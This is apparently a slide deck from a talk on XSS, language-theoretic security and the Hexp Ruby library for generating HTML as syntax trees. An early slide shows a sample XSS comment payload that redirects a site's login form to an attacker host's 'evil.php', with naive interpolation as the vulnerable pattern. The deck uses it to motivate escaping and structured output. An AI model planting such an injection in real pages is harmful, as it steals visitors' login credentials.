



# Web Linguistics

## Towards Higher Fluency

by Arne Brasseur / [plexus](https://github.com/plexus)

---

Moi

Freelance Ruby Dev

Shoes, Rails Girls Berlin, Ruby Monsters

Twitter / Github : @plexus

---


---

# XSS

## Cross site scripting


---
{:.big}

XSS enables attackers to inject client-side script into Web pages viewed by other users

---

A simple comment form

<form>
  <label>Add a comment</label><br />
  <textarea rows="5" cols="80">
<script>
 document.getElementById('login_form').
   action="http://208.246.24.14/evil.php"
</script>
</textarea><br />
  <input type="submit" />
</form>

---

We naively display the comment

```ruby
"<div class='comment'>#{ comment }</div>"
```

---
{:.big}

Each time someone visits our site,
the malicious code gets executed.

---

The common wisdom is to "escape" the inserted value

```html
<div class='comment'>#{ escape_html(comment) }</div>
```

Now the code is harmless

```html
<div class='comment'>
  &lt;script&gt; ... &lt;/script&gt;
</div>
```

---
{:.big}

But XSS is still rampant,
more common than buffer overflows

---
{:.big}

**why** is it so **hard?**

---

Manual escaping? **hard**

Let's automate!

```html
# using HTML::SafeBuffer
<div class='comment'><%= comment %></div>
```

And it **just works**

---

We've turned the problem around

Whitelist instead of blacklist

```ruby
def helper
  "<p> haikus are pretty <p>".html_safe
end
```

**We're still manually deciding what (not) to escape**

---

# The String Problem

---


---

## The problem

Semantics of string are twofold

* a string
* a textual representation of HTML

---
{:.big}

HTML is structured data,
let's treat it as such

---


---

# Language

## langue, taal, sprache, 語言

---


---


---

````dot
graph platypus {
  node[shape=none color=blue fontcolor=blue];
  edge[color=blue];

  s[label=sentence shape=oval];
  subject[];
  action[];
  place[];
  verb[];
  object[];

  platypus[fontcolor=red];
  carry[fontcolor=red];
  chicken[fontcolor=red];
  forest[fontcolor=red];

  s -- subject
  subject -- platypus
  s -- action
  action -- verb
  action -- object
  verb -- carry
  object -- chicken
  s -- place
  place -- forest;
}
````


---

<span class="box">A platypus</span><span class="box">is carrying</span><span class="box">a chicken</span><span class="box">in the forest</span>

---


---

## Magic of language

* Listener reconstructs abstract representation
* Identical "tree" is shared between speakers
* Each derive meaning from this representation

---

# Formal Language

---
{:.big}

a **formal language** is
a **set of strings** of symbols
governed by **strict rules**

---

```
alphabet = {0, 1, 2, 3, 4, 5, 6, 7, 8, 9,
            +, *, (, ), =}
```

---
{:.big}

These rules form the **grammar**
of the language, they specify
how to **generate** valid strings

---

```
<EQUATION>   ::= <sum> = <sum>

<digit >     ::= 0 | 1 | 2 | 3 | 4 |
                 5 | 6 | 7 | 8 | 9

<sum>        ::= *<digit> + *<digit>
```

---
{:.big}

We can represent
how the grammar rules are applied
using a **syntax tree**

---


{:.center width="850px"}

---
{:.big}

The **meaning** of a sentence
corresponds with
its **syntax tree**

---

## Language is everywhere

* Programming languages
* Markup & styling languages
* Data languages
* Network protocols

---
{:.big}

Your application either
**consumes** or **generates**
these languages

---
{:.big}

In either case it should
use **syntax trees**
to do so

---
{:.center}

# #langsec

---

When handling input

* Treat it as a formal language
* Separate recognition from processing

---

If input handling is done ad-hoc

* recognition is scattered across the program
* it doesn't match the programmer's assumptions
* it becomes a weird machine for an attacker to program

---

[Language-Theoretic security research](http://langsec.org)

Meredith L. Patterson : **"The Science of Insecurity"**

---
{:.big}

We can apply similar reasoning to **output** handling

---

When generating output

* Treat it as a formal language
* Separate language generation from program logic

---

If output handling is done ad-hoc

* language generation is scattered across the program
* it doesn't match the programmer's assumptions
* it becomes a weird machine for an attacker to program

---
{:.big}

XSS is a Failure at the Language Level

---



---



---
{:.center}

# Abolish Your Templates, Burn Your Helpers

---
{:.big}

Create a HTML **data structure**
Serialize it **in one pass**
In **pure Ruby**

---
{:.center}

# Hexp

---
{:.big}

An API for **generating**
and **manipulating**
**HTML** syntax trees

---
{:.big}

What **Rack** does for **HTTP**
**Hexp** does for **HTML**

---
{:.center}

# Creating nodes

---

## Objects

```ruby
div = Hexp::Node.new(:div, class: 'strong')
# => H[:div, {"class" => "strong"}]
```

---

## Builder syntax

```ruby
list = Hexp.build do
  ul do
   3.times do |i|
     li i.to_s
   end
  end
end
# => H[:ul, [H[:li, ["0"]], H[:li, ["1"]], H[:li, ["2"]]]]
```

---

## S-expressions

```ruby
toc = H[:ol, {class: 'toc'}, [
    H[:li, 'Language Theory'],
    H[:li, 'XSS'],
    H[:li, 'Applications']
  ]
]
```

---

## Manipulating Nodes

```ruby
doc.rewrite('head') do |head|
  head.add(H[:script,
    src: 'http://code.jquery.com/jquery-1.10.1.min.js'])
end
```

```ruby
div.add_class('sidebar')
```

---

## Reusable 'Middleware'

For example

* Inline CSS/JS/images
* Pretty print
* Populate forms (cfr. Formless)

---

## Reusable widgets

* Menus
* Breadcrumbs
* Forms
* Header / Footer

cfr. [Showpiece](https://github.com/begriffs/showpiece)

---

## Example : discount module

```ruby
doc.rewrite('form.checkout input[type=submit]') do |submit|
  [ discount_form_field, submit ]
end

def discount_form_field
  Hexp.build do
    div do
      label 'Discount code', for: 'discount'
      input name: 'discount', type: 'text'
    end
  end
end
```

---

## Example Widget

```ruby
class BookWidget < Struct.new(:book, :tag)
  include Hexp

  def to_hexp
    H[tag, {class: 'book-entry', id: "book-#{book.id}"}, [
        H[:h2, book.title],
        H[:img, src: book.image.url(:medium)]
      ]
    ]
  end
end
```

---

with `include Hexp` all DSL methods redirect to `to_hexp`

tag, attributes, children, attr, rewrite, select, to_html, class?, add_class, add_child, add, process, %, text, remove_attr, set_attributes

---

## Hexpress

* Converts Markdown to Hexp
* Contains a bunch of 'Processors'
  * AddImpressJs
  * GraphvizDotToSVG
  * MakeSelfContained
* Powers this presentation

---

## Working with designers

* Create widgets with semantic markup
* Create a Living Styleguide


---
{:.huge .center}

Q ?

---
{:.center}

# Thank you!

* [github.com/plexus/hexp](http://github.com/plexus/hexp)
* [twitter.com/plexus](http://twitter.com/plexus)
* [arnebrasseur.net](http://arnebrasseur.net)

---
{:.center}

# References

---

## Blog posts

* [Safe String Theory for the web](http://acko.net/blog/safe-string-theory-for-the-web/) by Steven Wittens
* [Structurally Fixing Injection Bugs](http://www.more-magic.net/posts/structurally-fixing-injection-bugs.html) by Peter Bex
* [Working with HTML in Haskell](http://adit.io/posts/2012-04-14-working_with_HTML_in_haskell.html) by Aditya Bhargava
* [A type-based solution to the “strings problem”: a fitting end to XSS and SQL-injection holes?](http://blog.moertel.com/posts/2006-10-18-a-type-based-solution-to-the-strings-problem.html) by Tom Moertel
* [The Devil in Plain Text](http://devblog.arnebrasseur.net/2013-04-plain-text) by Arne Brasseur

---

## Books

* Speaking by Willem J.M. Levelt
* An Introduction to Formal Languages and Automata by Peter Linz

---

## Security

* [Langsec](http://langsec.org/)
* [The Science of Insecurity](http://www.youtube.com/watch?v=3kEfedtQVOY) by Meredith L. Patterson
* [XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

---

## Software

Ruby

* [Formless](https://github.com/Wardrop/Formless)
  Completely transparent, unobtrusive form populator for web applications and content scrapers
* [Loofah](https://github.com/flavorjones/loofah)
  HTML/XML manipulation and sanitization based on Nokogiri
* [Living Style Guide](https://github.com/hagenburger/livingstyleguide)

Common Lisp

* [CL-WHO](http://jandmworks.com/cl-who-ext.html)

---

## Software

Haskell

* [BlazeHtml](http://jaspervdj.be/blaze/tutorial.html)
* [Yesod framework](http://www.yesodweb.com/book/widgets)
* HXT

General

* [Showpiece](http://begriffs.github.io/showpiece/)
